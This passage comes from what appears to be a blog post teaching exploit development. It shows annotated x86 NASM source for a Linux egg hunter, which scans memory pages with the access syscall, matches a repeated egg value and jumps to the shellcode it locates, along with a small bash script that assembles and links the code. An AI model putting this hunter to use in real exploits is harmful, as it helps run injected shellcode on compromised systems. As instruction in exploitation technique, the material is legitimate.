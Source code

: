 ```nasm
				; default page size is 4096 bytes (next_page + next_address = 4096 => 4095 + 1 = 4096)

next_address:
	inc edx			; increment edx by 1 to reach the page size of 4096
	
	pusha			; push all registers on the stack
	lea ebx, [edx + 0x4]	; ebx is set with the value of edx plus 4, so 8 bytes are validated at once

	mov al, 0x21		; 21 is the hex value of the decimal 33 for access syscall

	int 0x80		; exec access syscall

	cmp al, 0xf2		; compare return value of accept with 0xf2 (low byte of EFAULT return value)

	popa			; pop all registers from the stack

	jz next_page		; jump short to next_page if zero (ZF = 1)

	cmp [edx], ebx		; if the egg in ebx doesn't match edx content go to the next address
	jnz next_address	; jump short if not zero (ZF = 0)

	cmp [edx + 0x4], ebx	; if the egg in ebx doesn't match edx+4 content go to the next address again
	jnz next_address	; jump short if not zero (ZF = 0)

	jmp edx			; egg is found, jump short at edx (our shellcode)
```

## Testing the Egg Hunter

In order to prove that the Egg Hunter is working, we first have to compile the `Assembly` code. This process consists of assembling and linking, which are described in previous blog posts.

The following `bash` script automates that process:

```bash
#!/bin/bash

echo '[+] Assembling with Nasm ... '
nasm -felf32 -o $1.o $1.nasm

echo '[+] Linking ...'
ld -o $1 $1.o

echo '[+] Done!'
```

The following command does the compilation and creates the executable `egg-hunter`:
